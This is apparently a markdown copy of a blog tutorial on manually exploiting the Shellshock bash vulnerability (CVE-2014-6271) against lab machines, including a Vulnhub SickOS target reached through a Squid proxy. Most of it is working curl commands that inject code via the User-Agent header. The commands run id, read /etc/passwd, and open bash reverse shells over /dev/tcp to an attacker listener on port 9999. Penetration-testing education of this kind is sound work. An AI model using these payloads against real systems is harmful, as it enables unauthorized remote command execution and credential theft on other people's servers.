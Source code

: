 ```yaml
---
title: Exploiting Shellshock 🗿​
---
```

> Credits to [SevenLayers](https://www.sevenlayers.com/index.php/125-exploiting-shellshock)

## Exploiting Shellshock Manually

The scanner comes back with:  "**Site appears vulnerable to the 'shellshock' vulnerability (http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271).**"  
  
I realize I'm talking about a four year old vulnerability but it's one that still exists and it's a rabbit hole I wanted to jump into.  I've come across this vulnerability a few times in the past and I've either used Metasploit or 34900.py ("Apache mod_cgi - 'Shellshock' Remote Command Injection") to get my shell.  I seem to recall having an issue with one or both at some point and I moved on to another avenue because my search results yielded bits and pieces but nothing that I could wrap my hands around.  
  
Stumbling upon this vulnerability recently, I paused to dig into it with the intention of getting a better understanding for manual exploitation.

The classic examples I see in from searches are the remote test:  
  
```shell
curl -A "() { ignored; }; echo Content-Type: text/plain ; echo ; echo ; /usr/bin/id" http://192.168.90.59/cgi-bin/test.sh
```
  
![](https://www.sevenlayers.com/images/blogimages/2018/Shellshock/image001.jpg)  
  
  
And the local test:  
  
```shell
x='() { :;}; echo VULNERABLE' bash -c :
```
  

![](https://www.sevenlayers.com/images/blogimages/2018/Shellshock/image002.jpg)  
  
If I'm local, I don't really care, I already have a shell.  It's that remote angle I want to leverage.  With a slight change of our syntax, we can read /etc/passwd:  
  
```shell
curl -H 'User-Agent: () { :; }; echo ; echo ; /bin/cat /etc/passwd' bash -s :'' http://192.168.90.59/cgi-bin/test.sh
```
  

![](https://www.sevenlayers.com/images/blogimages/2018/Shellshock/image003.jpg)  
  
Nice!  
  
Now let's test for outbound connectivity on port 9999:  
  
```
curl -H 'User-Agent: () { :; }; /bin/bash -c 'ping -c 3 192.168.90.35:9999'' http://192.168.90.59/cgi-bin/test.sh
```
  

![](https://www.sevenlayers.com/images/blogimages/2018/Shellshock/image004.jpg)  
  
  
On our side, we setup the listener:  
  

![](https://www.sevenlayers.com/images/blogimages/2018/Shellshock/image005a.jpg)  
  
  
Cool.  We know we can connect outbound on port 9999, let's go for the reverse shell:  
  
```shell
curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/192.168.90.35/9999 0>&1' http://192.168.90.59/cgi-bin/test.sh
```
  

![](https://www.sevenlayers.com/images/blogimages/2018/Shellshock/image006.jpg)  
  
  
Setting up the listener:  
  

![](https://www.sevenlayers.com/images/blogimages/2018/Shellshock/image007.jpg)  
  
  
Excellent -- we have a shell!   
  
It wasn't really that hard to get this working, I just needed to play with the syntax.  In my searching, I saw examples of using wget or curl to pull in other files but I never understood why the need to add extra steps when you can get the shell directly.    
  
So maybe you're thinking what's the big deal?  Why did I need to go through this exercise?    
  
Sometimes I rely on tools and it's a crutch.  Sometimes I understand the mechanics and the tool is just easier / quicker.  In this case, it was most definitely a crutch for a lack of knowledge and here's where this would have helped me out.   
  
A while ago, I wrote up [Vulnhub SickOS 1.1 Walkthrough](https://www.sevenlayers.com/index.php/85-vulnhub-sickos-1-1-walkthrough) and I actually noted the server was vulnerable to Shellshock.  In the writeup, I walk through the process of exploiting the CMS which gets me a low privilege shell but now let me take you through the express lane.  
  
We know we have a Squid proxy running on our target.  Let's use Curl to hit the CGI script through the proxy:  
  
```shell
curl -x http://192.168.90.61:3128 -L http://127.0.0.1/cgi-bin/status
```
  

![](https://www.sevenlayers.com/images/blogimages/2018/Shellshock/image008.jpg)  
  
Cool, it works.  Now let's check to see if it's vulnerable to Shellshock (we already know it is -- humor me!):  
  
```shell
curl -x http://192.168.90.61:3128 -A "() { ignored; }; echo Content-Type: text/plain ; echo  ; echo ; /usr/bin/id" -L http://127.0.0.1/cgi-bin/status
```
  

![](https://www.sevenlayers.com/images/blogimages/2018/Shellshock/image009.jpg)  
  
  
Excellent!  Now let's get that shell:  
  
```shell
curl -x http://192.168.90.61:3128 -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/192.168.90.35/9999 0>&1' -L http://127.0.0.1/cgi-bin/status```  
  

![](https://www.sevenlayers.com/images/blogimages/2018/Shellshock/image010.jpg)  
  
  
Setting up the listener:  
  

![](https://www.sevenlayers.com/images/blogimages/2018/Shellshock/image011.jpg)

Shellz for everyone!